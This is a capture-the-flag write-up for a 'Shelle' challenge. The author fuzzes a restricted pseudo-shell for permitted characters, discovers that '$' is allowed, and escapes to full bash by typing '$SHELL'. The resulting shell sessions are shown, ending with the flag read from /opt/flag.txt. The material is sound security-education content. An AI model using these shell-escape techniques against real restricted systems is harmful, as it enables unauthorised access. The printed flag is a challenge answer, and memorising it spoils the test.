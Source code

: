 # Shelle
### Challenge
**Tag:** _Medium_

**Description:**
Professor Shelle created a custom psuedo shell for us to learn Linux, she believes it's safe and no one can ever read the flag. Can you prove her wrong?

### Solve
On the first login everyone does the directory list so I did the same thing:
```shell
root@shelle$ls
ls
assignment.txt  bin
```

i cat the `assigment.txt` and it was the rules for the students... but we are not here to learn something we are here to get the flag!

I played a bit with those commands then I asked myself what if I don't run them and run something else... so I ran:
```
root@shelle$nano
nano
/bin/bash: nano: command not found

```
I'm a vim user but nano is basically everywhere!

but it wasn't there! so I ran another one...
one of the papular commands is grep. I ran `grep *` to basically cat the `assignment.txt` but it gave me an error!
```
root@shelle$grep *
grep *

Illegal Character found, for safety reasons only certain characters are allowed
```

illegal character? hmmmmmmmm?


In the last write-up in [Misc: Badwords], I write about what I usually do in this kind of challenge...
basically, I try to get a new shell by running the command for example bash or sh...

I went to do the same thing but it said:
```
/bin/bash: bash: command not found
```
wierddddddddd!
I used an escape character (BackSlash) to bypass it but it gave me an illegal character error.

so our goal is to find special characters!
for this I'm using:

```
seclists
	\_Fuzzing
		\_special-chars.txt
```

knowing the illegal characters will help me to work better with the shell.
when I was manually doing the fuzzing I found out that `-` is not blocked...
the `-` was returning the `/bin/bash` help menu because if you do something like this:

```
/bin/bash -c -
```

you will get an error and help menu...

how do I know that `-c` flag is used?
well! it's fuzzing again...
if you do `"`without closing it you will get this message:

```
root@shelle$"
"
/bin/bash: -c: line 0: unexpected EOF while looking for matching `"'
/bin/bash: -c: line 1: syntax error: unexpected end of file
```

I was doing the fuzzing that I found out `$` character is not blocked so I knew that I can do something with that!

there is one big thing that works with `$` in shells and that's variables!
there are a lot of ways to do it but I tried these:
```
printenv
env
set
```
and set command worked and listed all of the environment variables.
in the environment variables, I saw two-variable `BASH` & `SHELL`...
which both of them will point to the bash location this is what I do in the restricted shells at first.

I used `$SHELL` and boom it worked I got the shell!
```
root@shelle$$SHELL
$SHELL
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
bash: groups: command not found
shelle@shelle-09175d04c26df208-77c8546756-f8lqx:~$
```

and I straight went for the flag!
how do I know where that flag is?
well after seeing that `assignment.txt`, I played a bit with those commands and when I was using the `ps` command I saw something sus. there is a binary on `/opt/binary` which was the only thing that was weird in those processes!

I didn't know that flag is there I just felt it and went for it and boom:

```
shelle@shelle-09175d04c26df208-77c8546756-f8lqx:~$ cd /opt/
cd /opt/
shelle@shelle-09175d04c26df208-77c8546756-f8lqx:/opt$ ls
ls
binary  flag.txt
shelle@shelle-09175d04c26df208-77c8546756-f8lqx:/opt$ cat flag.txt
cat flag.txt
flag{82ad133488ad326eaf2120e03253e5d7}
```

> Itsnexn for **Abyssal Cruelty**
